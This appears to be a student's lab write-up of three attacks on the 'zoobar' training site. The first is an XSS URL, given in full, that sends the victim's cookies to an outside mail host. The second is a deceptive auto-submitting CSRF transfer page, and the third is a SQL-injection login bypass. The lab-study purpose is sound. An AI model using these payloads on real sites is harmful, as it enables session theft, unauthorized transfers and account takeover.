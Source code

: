 # Attack A: Cookie Theft

The main vulnerability of this part is that the script of the zoobar website directly adds and processes the submitted URL query as HTML code. That means hackers can insert malicious javascript code into the URL query for execution and steal user information and cookies.

In my solution, I created a URL that leverages this vulnerability to steal the cookie of the logged user. I first add ">" at the end of "http://zoobar.org/users.php?user=" to end the previous tag, and then I add "<script>" to start a javascript tag block, in which I created a new Image object and set its "src" attribute as a link to http://zoomail.org/sendmail.php. This link will help me send an email with stolen content to my mailbox. In the link, I set netid as jrao7 (my netid), payload as document.cookie (stealing cookie!), and random as Math.random(). In order to avoid potential warning text or changes that the user may notice, I then redirect the website to http://zoobar.org/users.php. Finally "</script>" is added to end the javascript tag.

The created URL looks like follows:
http://zoobar.org/users.php?user="><script>new Image().src='http://zoomail.org/sendmail.php?netid=jrao7&payload='+document.cookie+'&random='+Math.random();document.location='http://zoobar.org/users.php';</script>

Finally, after URL encoding, it looks like follows:
http://zoobar.org/users.php?user=%22%3E%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3Fnetid%3Djrao7%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3Bdocument.location%3D%27http%3A%2F%2Fzoobar.org%2Fusers.php%27%3B%3C%2Fscript%3E

Usage:

1. First log in any account
2. Execute the URL in the address bar

# Attack B: Cross-Site Request Forgery

The main vulnerability of this part is that hackers can make malicious HTML pages and use the cookie stored in Browser to impersonate the logged user to make CSRF attacks (e.g., pretend to be the actual user to make a credit transfer).

In my solution, I created an HTML page and put two elements: One is an invisible iframe, the other one is a POST form. The invisible iframe is used to load the webpage secretly. The form contains three hidden input elements: two inputs for setting transfer amount (10) and destination account ("attacker") respectively, and one input that serves as a submission button. The form targets to the iframe, and its action is set as http://zoobar.org/transfer.php in order to do the transfer.

For the javascript, I defined an onclick function for the submission button to do the redirection. That is, when the submission button is clicked and the submission is finished, the page will be redirected to www.bing.com seamlessly. In the script, the button will be automatically clicked when the HTML page is opened. I also set the title of the HTML page as "Bing" in case the user notices the difference.

Usage:

1. First log in any account (except for "attacker")
2. Use Iceweasel browser to open b.html

# Attack C: SQL Injection

The main vulnerability of this part is that the validation of username is actually not guaranteed and this the SQL can be injected. For example, "--" in SQL represents commenting. When "--" appears in a SQL sentence, all the content after that will be commented and ignored. According to auth.php, a username with "--" in it will be regarded as a valid username (actually, the username will be quoted using escapeString method, but technically, username with "--" can still be stored in the database. That is why I said it can be regarded as a valid username), and the system forms the SQL query string by directly connecting the submitted username and password. That means, all the remaining SQL conditions, including password checking, will be commented by username with "--" at the end, and this SQL will successfully retrieve the database without a password. Thus, if we can add "--" to the end of some registered usernames, and store these "corrupted" usernames into the database, then we are able to log in these users without password check.

More specifically, we should add "';--" to the end of a registered username (e.g., jrao7), and register it ("jrao7';--") into the database. When we login, we can use "jrao7';--" as the username, and input any password we want, then the "corrupted" username "jrao7';--" will pass the username validation (because "jrao7';--" exists in the database) and comment password check in SQL sentence. Finally, we will log in "jrao7" without the correct password.

In my solution, I made an HTML page that is similar with the page of Attack B task. I created a POST form with action as http://zoobar.org/index.php in order to register or login. In this form, I created three input. One is for username input, one is for password (hidden, with a default password for submission. You don't need to input password manually), and one that serves as the register button.

For the javascript, I defined an onclick function for the register button to do the registration. That is, when the register button is clicked, "';--" will first be added to the input username as a new tail, and then the form will be submitted as a registration request, and this modified username will be registered into the database as a new user. After successful registration, you will log into the website automatically. Since the username we just registered is a previously registered username with "';--", then the system actually will allow you to log in that previously registered username without password check.

Usage:

1. Use Iceweasel browser to open c.html
2. Input the username you want to login, and click on Log in button.
